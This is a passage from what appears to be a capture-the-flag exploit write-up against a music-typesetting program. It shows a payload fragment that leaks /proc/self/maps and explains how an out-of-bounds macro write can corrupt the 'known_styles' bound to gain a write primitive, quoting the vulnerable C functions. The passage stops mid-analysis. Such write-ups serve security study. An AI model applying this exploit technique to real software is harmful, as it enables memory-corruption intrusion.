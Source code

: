 ```py
MS241 %s M

INCLUDE:/proc/self/maps
""" % ((data))

upload(10,payload)

gen(10)
```

Then, to gain write primitive we corrupt `known_styles` variable in bss through OOB macro write. This variable is used as an upper bound for style indexing:

```cpp
Static void addStyle(Char *S)
{
  style_index0 sn;
  Char STR1[256];

  sn = findStyle(NextWord(STR1, S, colon_, dummy));
  if (sn > 0) {
    strcpy(known_style[sn-1], S);
    return;
  }
  if (known_styles < max_styles) {
    known_styles++;
    strcpy(known_style[known_styles-1], S);
  } else
    error("Can't add another style - table full", print);
}

```

If we're able to get out of bound index we can write controlled data. But there's a small issue. let's check `findStyle`:

```cpp
Static style_index0 findStyle(Char *s_)
{
  style_index0 Result = 0;
  Char s[256];
  style_index0 i = 0;

  strcpy(s, s_);
  sprintf(s + strlen(s), "%c", colon_);
  while (i < known_styles) {
    i++;
    if (startsWithIgnoreCase(known_style[i-1], s))
      return i;
  }
  return Result;
}
```
